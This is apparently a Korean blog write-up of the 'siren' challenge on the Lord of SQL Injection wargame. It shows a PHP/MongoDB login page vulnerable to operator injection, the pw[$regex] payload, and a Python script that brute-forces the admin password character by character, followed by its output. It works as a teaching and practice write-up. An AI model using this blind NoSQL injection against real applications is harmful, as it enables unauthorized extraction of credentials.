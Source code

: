 ```yaml
---
title: "[Lord of SQL Injection] LoS - siren 문제풀이"
date: 2019-08-06
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


`MongoDB`의 두 번째 문제인 `siren`이다.
이번 문제를 풀기 위해서는 소스코드를 구현해야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : {"id":null,"pw":null}
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['id']) echo "<h2>Hello User</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['pw'] === $_GET['pw']) solve("siren");
  highlight_file(__FILE__);
?>
```

이번 문제를 풀기 위해서는 `id`가 `admin`일 때의 `pw` 값을 정확하게 알아야 한다.
따라서 `Blind SQL Injection`을 사용하여 `pw`의 값을 알아내야 한다.
어떻게 풀까 찾아 보다가 `$regex`를 찾을 수 있었다.
`$regex`을 사용하면 정규표현식을 활용 해 패턴으로 검색을 할 수 있다.
사용법은 다음과 같다.  

```plain
?id=admin&pw[$regex]=^
```

여기서 `^`는 `MySQL`에서의 `%`와 같은 역할을 한다.
따라서 `^` 뒤에 문자를 하나씩 추가 해 `pw`의 값을 하나 씩 알아낼 수 있다.
이를 위해 아래와 같이 코드를 구현했다.  

```python
import requests

flag = ""

url = "https://los.rubiya.kr/chall/siren_9e402fc1bc38574071d8369c2c3819ba.php?id=admin&pw[$regex]="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 10):
	for i in range(48, 123):
		if i != 0x3f:
			found = 0
			try:
				query = url + "^" + flag + chr(i)
				r = requests.post(query, cookies=session)
			except:
				print "[-] Error occur"
				continue

			if 'Hello User' in r.text:
				flag += chr(i)
				found = 1
				print "[+] Found " + str(j), ":", flag
				break
	if not found:
		break

print "[+] Found password : ", flag
print "[+] End"
```

실행 한 결과는 다음과 같다.  

```bash
$ python ex.py
[+] Start
[+] Find password
[+] Found 1 : 1
[+] Found 2 : 15
[+] Found 3 : 158
[+] Found 4 : 1588
[+] Found 5 : 1588f
[+] Found 6 : 1588f5
[+] Found 7 : 1588f5a
[+] Found 8 : 1588f5a3
[+] Found password :  1588f5a3
[+] End
```

결과로 나온 값을 아래와 같이 입력하면 문제를 풀 수 있다.  

```plain
?id=admin&pw=1588f5a3
```

---

```php
----------------------------------------------------------
query : {"id":"admin","pw":"1588f5a3"}
----------------------------------------------------------

Hello User
SIREN Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['id']) echo "<h2>Hello User</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['pw'] === $_GET['pw']) solve("siren");
  highlight_file(__FILE__);
?>
```

---

```bash
SIREN Clear!!
```